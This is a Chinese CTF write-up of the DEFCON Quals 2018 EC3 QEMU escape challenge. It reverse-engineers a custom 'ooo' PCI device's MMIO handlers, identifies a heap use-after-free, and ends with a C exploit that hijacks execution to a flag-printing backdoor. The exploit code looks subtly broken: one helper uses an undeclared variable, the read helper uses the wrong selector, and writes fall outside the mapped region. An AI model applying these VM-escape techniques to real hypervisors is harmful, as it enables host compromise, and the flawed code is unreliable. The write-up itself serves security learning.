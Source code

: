 ```yaml
---
title: DefconQuals-2018-EC3
date: 2020-02-24 17:20:46
tags: PWN
---
```


# 初步分析



qemu逃逸,拿到题目查看run.sh

```
mozhucy@ubuntu:~/Desktop/ctf/defconec3/EC3$ cat run.sh
#!/bin/sh
./qemu-system-x86_64 -initrd ./initramfs-busybox-x86_64.cpio.gz -nographic -kernel ./vmlinuz-4.4.0-119-generic -append "priority=low console=ttyS0" -device ooo
```

发现这个ooo设备,拖入ida分析,居然删了符号.记得在classinit和realize里面会出现一些字符串,里面就有设备的名字,所以搜索一下字符串,看到了ooo

![string](DefconQuals-2018-EC3\string.png)

开了个有符号的,看了一下偏移

```
pwndbg> p/d &(*(PCIDeviceClass *)0).vendor_id
$5 = 232
```

找到了两个id,确认了设备,查看端口,发现地址是从0xfb000000大小为0x1000000的mmio空间

```
/sys/devices/pci0000:00/0000:00:04.0 # cat resource
0x00000000fb000000 0x00000000fbffffff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

```C
unsigned __int64 __fastcall pci_ooo_realize(__int64 a1, __int64 a2)
{
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  sub_6E5C20(*(a1 + 120), 1LL);
  if ( !msi_init(a1, 0LL, 1LL, 1LL, 0LL, a2) )
  {
    sub_6E5B0A(a1 + 2680, 1u, sub_6E5F06, a1);
    qemu_mutex_init((a1 + 2520));
    qemu_cond_init((a1 + 2568));
    qemu_thread_create((a1 + 2512), &off_B6339D, sub_6E631A, a1, 0);
    memory_region_init_io(a1 + 2272, a1, off_B63300, a1, "ooo-mmio", 0x1000000LL);
    pci_register_bar(a1, 0LL, 0LL, a1 + 2272);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

off_B63300其实就是MemoryRegionOps结构体,很明显6E613C为mmio_read,6E61F4为mmio_write

恢复完了全部后,发现这个题非常的暴力.

```
void __fastcall ooo_mmio_write(void *a1, __int64 addr, __int64 val, unsigned int size)
{
  unsigned int v4; // eax
  char n[12]; // [rsp+4h] [rbp-3Ch]
  __int64 v6; // [rsp+10h] [rbp-30h]
  void *v7; // [rsp+18h] [rbp-28h]
  __int16 v8; // [rsp+22h] [rbp-1Eh]
  int i; // [rsp+24h] [rbp-1Ch]
  unsigned int v10; // [rsp+28h] [rbp-18h]
  unsigned int v11; // [rsp+2Ch] [rbp-14h]
  unsigned int v12; // [rsp+34h] [rbp-Ch]
  void *v13; // [rsp+38h] [rbp-8h]

  v7 = a1;
  v6 = addr;
  *(_QWORD *)&n[4] = val;
  v13 = a1;
  v10 = ((unsigned int)addr & 0xF00000) >> 20;
  v4 = ((unsigned int)addr & 0xF00000) >> 20;
  switch ( v4 )
  {
    case 1u:
      free(chunk_list[((unsigned int)v6 & 0xF0000) >> 16]);// del
      break;
    case 2u:
      v12 = ((unsigned int)v6 & 0xF0000) >> 16;
      v8 = v6;
      memcpy((char *)chunk_list[v12] + (signed __int16)v6, &n[4], size);// write
      break;
    case 0u:                                    // new
      v11 = ((unsigned int)v6 & 0xF0000) >> 16;
      if ( v11 == 15 )
      {
        for ( i = 0; i <= 14; ++i )
          chunk_list[i] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      else
      {
        chunk_list[v11] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      break;
  }
}
__int64 __fastcall ooo_mmio_read(void *a1, int addr, unsigned int size)
{
  unsigned int index; // [rsp+34h] [rbp-1Ch]
  __int64 dest; // [rsp+38h] [rbp-18h]
  void *v6; // [rsp+40h] [rbp-10h]
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v6 = a1;
  dest = 0x42069LL;
  index = (addr & 0xF0000u) >> 16;
  if ( (addr & 0xF00000u) >> 20 != 15 && chunk_list[index] )
    memcpy(&dest, (char *)chunk_list[index] + (signed __int16)addr, size);// read
  return dest;
}
```



这就是一个套了个qemu的堆题(禁止套娃),不过感觉因为qemu的原因,所以堆排布会非常的混乱,所以可能需要多花点功夫的调试,不过这个漏洞很明显,存在一个UAF,配合ptmalloc打就行了.



# 利用

功能:ooo_mmio_read

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_read((case << 20)|(index<<16)|offset)

功能:ooo_mmio_write

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_write((case << 20)|(index<<16)|offset,val)

case为0时为new,val为malloc的size

case为1时为del,val没什么用

case为2时为write,val是要写入的值,可以和上面的mmio_read对应addr参数的功能

6E65F9还有个后门system("cat ./flag")

EXP:

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdint.h>
#include <assert.h>
#include <string.h>
#include <time.h>

uint64_t base = 0;

int mmio_read(uint64_t addr)
{
	return *((uint32_t *)(base + addr));
}

void mmio_write(uint64_t  addr,uint32_t value)
{
	 *((uint32_t *)(base + addr)) = value;
}

void new(int index,int size)
{
    mmio_write((0 << 20)|(index << 16),size);
}

void del(int index)
{
    mmio_write((1 << 20)|(index << 16),size);
}

void w(int index,int offset,int val)
{
    mmio_write((2 << 20)|(index << 16)|offset,val);
}

uint32_t r(int index,int offset,int val)
{
    return mmio_read((0 << 20)|(index << 16)|offset);
}

int main()
{
	puts("[*]start pwn");
	int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
	assert(fd != -1);
	
	base = (uint64_t)mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
	assert(base != -1);
    
    new(15,0x70);
    del(0);
    w(0,0,0x11301A0);
    new(2,0x70);
    new(2,0x70);
    w(2,0,0x6E65F9);
    w(2,1,0);
    
    return 0;
}
```

